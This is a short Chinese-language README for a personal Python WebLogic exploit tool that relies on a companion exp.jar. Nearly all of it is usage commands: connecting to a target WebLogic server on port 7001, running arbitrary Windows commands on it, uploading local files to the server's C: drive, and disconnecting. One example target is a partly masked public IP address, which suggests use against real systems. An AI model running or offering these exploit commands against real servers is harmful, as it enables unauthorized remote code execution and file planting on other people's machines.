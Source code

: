 # weblogic exp python版
提供2个自用的weblogic exp python的工具，使用时需要讲exp.jar放在同一目录。

# 使用说明：
  
  - **第一个：连接目标**
  ```
  python win_weblogic_exp.py -target 218.*.**.99 -port 7001 -cmd init
  ```
  - **第二个: 执行一句话命令**
  ```
  python win_weblogic_exp.py -target 218.*.**.99 -port 7001 -cmd "cmd /c ipconfig"
  ```
  
  - **第三个：上传文件**
  ```
  python win_weblogic_exp.py -target 192.168.18.133 -port 7001 -cmd upload -lfile "E://boot.ini.txt" -rfile "C://boot.ini.txt"
  ```
  
  - **第四个：断开目标**
 
 ```
 python win_weblogic_exp.py -target 192.168.18.133 -port 7001 -cmd bye
 ```
